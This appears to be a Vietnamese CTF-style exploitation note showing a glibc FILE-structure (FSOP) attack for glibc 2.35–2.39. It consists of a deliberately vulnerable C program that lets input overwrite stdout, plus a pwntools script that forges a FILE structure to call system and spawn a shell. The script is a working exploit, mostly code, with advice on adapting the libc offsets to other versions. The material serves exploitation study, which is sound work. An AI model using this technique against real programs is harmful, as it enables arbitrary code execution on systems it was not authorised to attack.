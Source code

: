 Lấy cảm hứng từ [this](https://aneii11.github.io/p/fsop-code-execution/#to-do)
Test thành công trên `glibc 2.35`, `2.38`, `2.39` (same code path).

# Scenery

Có khả năng overwrite lên `stdout` trong libc.
Có khả năng ghi đè ít nhất `0xE8 bytes`. (nếu là `0xE0` cân nhắc `fsop an3eii`).

# POC

## Demo code C

Compile theo shogun

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    printf("libc leak: %p\n", stdout);
    read(0, stdout, 0xE8);
    puts("trigger");

    return 0;
}
```

## Demo exploit

Compile trên local (`wsl2 ubuntu 22.04.5 LTS`) với `glibc 2.39`:

```
from pwn import *

exe = ELF("./tmp")
libc = ELF("/home/vani/glibc-2.39/compiled-2.39/lib/libc.so.6")
context.binary = exe

script = '''
b *main
b *main + 123
b *_IO_wdoallocbuf
'''

p = process("./tmp")
#p = gdb.debug("./tmp", gdbscript = script)

p.recvuntil(b"libc leak: ")
libc_base = int(p.recvline(), 16) - 0x1d07a0
print(hex(libc_base))

_IO_2_1_stdout_ = libc_base + libc.symbols['_IO_2_1_stdout_']
system = libc_base + libc.symbols['system']
fp = FileStructure()
fp.flags = 0xfbad2484 + (u32(b"||sh") << 32)
fp._IO_read_end = system
fp._lock = _IO_2_1_stdout_ + 0x50
fp._wide_data = _IO_2_1_stdout_
fp.vtable = libc_base  + libc.symbols['_IO_wfile_jumps'] - 0x20
payload = bytes(fp) + p64(_IO_2_1_stdout_ + 0x10 - 0x68)

p.send(payload)

p.interactive()
```

<mark>Với các bản glibc khác chỉ cần thay đổi đoạn tính toán libc base</mark>.

# Idea

Cùng ý tưởng được nếu trong `readme2`. Chỉ là thay đổi `fileptr` sang địa chỉ của `stdout` trong `glibc`, khá dễ hiểu trong trường hợp ta có thể leak libc.